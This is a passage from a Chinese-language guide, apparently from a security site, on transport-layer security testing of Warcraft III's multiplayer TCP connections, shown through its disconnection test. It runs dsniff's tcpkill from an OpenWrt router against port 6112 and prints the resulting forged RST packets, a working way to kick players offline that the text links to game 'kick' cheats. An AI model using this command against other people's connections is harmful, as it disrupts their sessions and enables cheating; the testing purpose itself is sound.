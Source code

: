 # TCP安全测试指南-魔兽3找联机0day

在安全测试的过程中，我们通常使用应用层工具直接测试待测目标，比如一个HTTP网站应用程序，我们可以直接发送HTTP请求来对其进行模糊测试，而对于HTTPS，也可以建立SSL连接后直接发送HTTP请求对其进行模糊测试

然而在某些黑盒测试中，由于信息不对称，我们无法获悉应用层协议的具体格式，因此难以直接在应用层进行安全测试，这时我们需要对应用层协议本身进行FUZZ，这就需要使用更底层协议来进行安全测试

本文以著名的RTS游戏魔兽争霸3为例，介绍在网络层对TCP连接进行安全测试的基本工具、方法、以及漏洞挖掘思路

0x00 概述
=======

* * *

我想测试魔兽争霸3联机游戏的安全问题

然而魔兽争霸3并没有使用HTTP协议来进行通信，因此我既不能用burp来proxy拦截，也不能直接用curl等常用工具来进行FUZZ

魔兽争霸3联机对战使用了TCP连接，自己定义了一套数据包格式（已经有人分析过了，但在本文中我们假设数据包格式未知）

所以我要在传输层对魔兽争霸3的TCP连接进行安全测试，重点测试以下内容：

1.  断线重连
2.  网络的延迟与丢包
3.  TCP原始数据的嗅探/修改
4.  TCP连接的重放与交互式测试

0x01 断线测试
=========

* * *

由于魔兽争霸3并没有断线重连机制，所以TCP连接断开后会直接导致游戏断开，而在许多第三方对战平台上，玩家的离线等同于战败，因此也诞生了许多游戏“踢人”外挂

下面使用WooyunWifi路由器上的dsniff工具包中的tcpkill工具为例进行测试：

```
root@OpenWrt:~# tcpkill -i br-lan port 6112
tcpkill: listening on br-lan [port 6112]
192.168.1.143:59892 > 192.168.1.163:6112: R 2875503812:2875503812(0) win 0
192.168.1.143:59892 > 192.168.1.163:6112: R 2875504063:2875504063(0) win 0
192.168.1.143:59892 > 192.168.1.163:6112: R 2875504565:2875504565(0) win 0
192.168.1.143:59892 > 192.168.1.163:6112: R 2875503812:2875503812(0) win 0
192.168.1.143:59892 > 192.168.1.163:6112: R 2875504063:2875504063(0) win 0
192.168.1.143:59892 > 192.168.1.163:6112: R 2875504565:2875504565(0) win 0
192.168.1.163:6112 > 192.168.1.143:59892: R 2041970133:2041970133(0) win 0
192.168.1.163:6112 > 192.168.1.143:59892: R 2041970389:2041970389(0) win 0
192.168.1.163:6112 > 192.168.1.143:59892: R 2041970901:2041970901(0) win 0
192.168.1.143:59892 > 192.168.1.163:6112: R 2875503818:2875503818(0) win 0
192.168.1.143:59892 > 192.168.1.163:6112: R 2875504069:2875504069(0) win 0
192.168.1.143:59892 > 192.168.1.163:6112: R 2875504571:2875504571(0) win 0
192.168.1.163:6112 > 192.168.1.143:59892: R 2041970133:2041970133(0) win 0
192.168.1.163:6112 > 192.168.1.143:59892: R 2041970389:2041970389(0) win 0
192.168.1.163:6112 > 192.168.1.143:59892: R 2041970901:2041970901(0) win 0
192.168.1.143:59892 > 192.168.1.163:6112: R 2875503824:2875503824(0) win 0
192.168.1.143:59892 > 192.168.1.163:6112: R 2875504075:2875504075(0) win 0
192.168.1.143:59892 > 192.168.1.163:6112: R 2875504577:2875504577(0) win 0
192.168.1.163:6112 > 192.168.1.143:59892: R 2041970142:2041970142(0) win 0
192.168.1.163:6112 > 192.168.1.143:59892: R 2041970398:2041970398(0) win 0
192.168.1.163:6112 > 192.168.1.143:59892: R 2041970910:2041970910(0) win 0
192.168.1.143:59892 > 192.168.1.163:6112: R 2875503824:2875503824(0) win 0
192.168.1.143:59892 > 192.168.1.163:6112: R 2875504075:2875504075(0) win 0
192.168.1.143:59892 > 192.168.1.163:6112: R 2875504577:2875504577(0) win 0
192.168.1.163:6112 > 192.168.1.143:59892: R 2041970151:2041970151(0) win 0
192.168.1.163:6112 > 192.168.1.143:59892: R 2041970407:2041970407(0) win 0
192.168.1.163:6112 > 192.168.1.143:59892: R 2041970919:2041970919(0) win 0
192.168.1.143:59892 > 192.168.1.163:6112: R 2875503830:2875503830(0) win 0
192.168.1.143:59892 > 192.168.1.163:6112: R 2875504081:2875504081(0) win 0
192.168.1.143:59892 > 192.168.1.163:6112: R 2875504583:2875504583(0) win 0
```